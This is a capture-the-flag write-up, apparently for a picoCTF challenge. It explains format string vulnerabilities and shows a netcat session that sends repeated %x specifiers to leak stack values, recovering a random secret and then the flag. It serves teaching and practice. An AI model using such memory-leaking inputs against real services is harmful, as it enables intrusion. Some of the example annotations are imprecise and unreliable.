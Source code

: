 <p>The hint tells us that this is a beginning format string attack. </p>

<p>A format string is usually the first argument to a printf function. They use format specifiers to <em>indicate</em> how it should be formatted. </p>

<ul>
<li>Position in string indicates argument</li>
<li>Specifier like %s, %f, %d indicate type</li>
<li>printf takes variable number of arguments</li>
<li>printf can access memory outside of where the stack frame “ends”</li>
</ul>

<p>It is sometimes called or compared to a buffer overflow because (1) the stack data structure is similar to a buffer and (2) bogus input allows one to access outside a  stack frame. Here are some examples.</p>



<pre class="prettyprint"><code class="language-no-highlight">\\ Normal usage
printf("My name is %s and I am %d", name, age);
\\ Where it goes wrong
printf("100% dood"); \\ Prints stack entry 4 bytes above %eip
printf("%s"); \\ Prints bytes pointed to by that stack entry
printf("100% no") \\ Writes 3 to address pointed to by stack entry</code></pre>

<p>When we look at the secret.c code, there’s two things to note. First, there’s a call to /dev/urandom, which generates a random value each instance for the variable secret. This is the variable that is compared to our input to determine if we can cat the flag. Last but not least, we can see that <code>printf</code> is used. This is <strong>important</strong> because the <code>printf(buffer)</code> in the code <em>does not check for type</em>. This means that we can netcat in and use format strings like <code>%x</code> to acess values.</p>

<p>So, let’s do it! Let’s read from the stack!</p>



<pre class="prettyprint"><code class="language-no-highlight">nc shell2017.picoctf.com 5320
&gt; %x %x %x %x %x %x %x %x %x %x %x</code></pre>

<p>I get this on the first try:</p>

<p>40 f7fc7c20 8048792 1 ffffdd34 76593d94 3 f7fc73c4 ffffdca0 0 f7e37a63    </p>

<p>I get this on the second try:</p>

<p>40 f7fc7c20 8048792 1 ffffdd34 f6bc530 3 f7fc73c4 ffffdca0 0 f7e37a63    </p>

<p>By comparing the two, we know that the 5th argument or result from %x is the address that is holding the variable secret.</p>

<p>On my last try: </p>

<p>40 f7fc7c20 8048792 1 ffffdd34 516ff4c6 3 f7fc73c4 ffffdca0 0 f7e37a63    </p>

<p>Great! I give the secret, 516ff4c6 , and obtain the flag <strong>7662bb6d94ae9ab986288a5353e7b86a</strong>                      </p>

<p>References:</p>

<ul>
<li><a href="https://www.youtube.com/watch?v=8dcUkJYn-Mk0">Format String Vulnerabilities</a></li>
<li><a href="https://www.youtube.com/watch?v=2HxyGWD1htg">Introduction to Format String Vulnerabilities</a></li>
</ul>
